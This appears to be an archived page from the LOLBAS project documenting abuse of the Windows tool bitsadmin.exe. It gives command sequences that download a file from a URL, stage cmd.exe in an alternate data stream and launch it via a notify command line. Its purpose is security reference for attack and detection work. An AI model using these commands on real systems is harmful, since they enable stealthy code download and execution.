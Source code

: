 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Bitsadmin.exe

* Functions: Execute, Download, Copy, Read ADS

```
bitsadmin /create 1   
bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe    
bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\1.txt:cmd.exe NULL    
bitsadmin /RESUME 1   
bitsadmin /complete 1

bitsadmin /create 1   
bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe   
bitsadmin /RESUME 1   
bitsadmin /complete 1   


bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset    

bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\1.txt:cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset   
```

Acknowledgements:
* Rob Fuller - @mubix 
* Chris Gates - @carnal0wnage
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://www.slideshare.net/chrisgates/windows-attacks-at-is-the-new-black-26672679 - Slide 53
* https://www.youtube.com/watch?v=_8xJaaQlpBo
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\bitsadmin.exe
c:\windows\sysWOW64\bitsadmin.exe
```

Notes:
* Requires active user (doesn't work from a web shell)


Detection:

 
